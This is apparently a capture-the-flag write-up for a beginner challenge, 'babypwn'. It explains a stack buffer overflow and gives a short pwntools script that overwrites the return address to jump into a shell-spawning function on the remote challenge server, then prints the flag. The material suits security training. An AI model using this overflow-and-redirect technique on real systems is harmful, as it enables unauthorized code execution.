 # babypwn

## Pwnable - Points: 1

> This Challenge remake...<br>
>
> i want many solve!!!<br>
>
> do you know Buffer Overflow???<br>
>
> <br>
>
> nc prob.vulnerable.kr 20035
>
> <br>
>
> Author : 이도현
>
> [babypwn](babypwn)
>

Overflow the buffer with 1024 bytes + 8 bytes EBP to get code execution. The binary contains two flag functions, where `flag2` spawns a shell, so simply jump to that function.

Exploit script:

```python
from pwn import *

# p = process('babypwn')
p = remote('prob.vulnerable.kr', 20035)

flag2 = 0x400636

p.sendline('A' * 1024 + 'A' * 8 + p64(flag2))
p.interactive()
```

flag: `KorNewbie{Th1s_1S_R34L_Fl4g_C0ngr4tu14ti0n5!}`
